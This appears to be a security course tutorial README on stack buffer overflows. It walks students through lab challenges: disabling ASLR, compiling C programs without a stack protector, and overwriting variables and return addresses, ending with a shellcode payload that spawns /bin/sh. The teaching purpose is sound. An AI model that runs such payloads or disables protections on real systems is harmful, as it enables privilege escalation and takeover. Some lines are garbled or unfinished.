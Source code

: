 # Week 2 - Malware and Buffer Overflow
In this tutorial you'll work on exploiting a buffer overflow vulnerability. This can attack can crash a legitimate process, give the attacker access to confidential data or even give the attacker a full control over a machine (see Challange3). 

## Setup
Disable ALSR on your machine using `echo 0 | tee /proc/sys/kernel/randomize_va_space`

## Challenge 1
Your goal here is to modify a variable in the code even though the code doesn't contain any logic writing to this variable. To do that

* Analyze the code in `challenge1.c`

* Compile `challenge1.c` using `gcc challenge1.c -o challenge1 -m32 -fno-stack-protector -z execstack -g`

* Run the file with an input that will change the value of `do_not_modify` to something other than 0.

* Add a `printf` statements to your code that will print the pointer values for buffer and modified variables.

* Run the program several times and observe the pointer values.

* Recompile the program without the `-fno-stack-protector`. What changed? Is your attack still possible?

* Enable ALSR on your machine and run the program again (modify the command from the beginning of this task). What changed? How ALSR protects against buffer overflow attacks? 

```
./challenge1 aaaaaaaaa
```

## Challenge 2

Disable ALSR on your machine using `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Compile `challenge2.c` using `gcc challenge2.c -o challenge2 -m32 -fno-stack-protector -z exe<cstack -g`

Run the file with an input that will change the value of modified to 0x0d0a0d0a. 

```
$./challenge2 `python2 -c 'print "A"*64 + "\x0b\x0d\x0b\x0d"'`
```

## Challenge 3

Analyze the code of `challenge3.c`. Compile it using:
````
gcc challenge3.c -o challenge3 -m32 -fno-stack-protector -z execstack -g
```
Your goal is to 


Shell code:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

Run the file with an input that will cause the winner function to be called. 
```
./challenge3 `python -c 'print "A"*16 + "\xcb\x91\x04\x08"'`
```

```
/challenge3 `python2 -c 'print "\x90"*359 + "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x30\xd4\xff\xff"'`
```
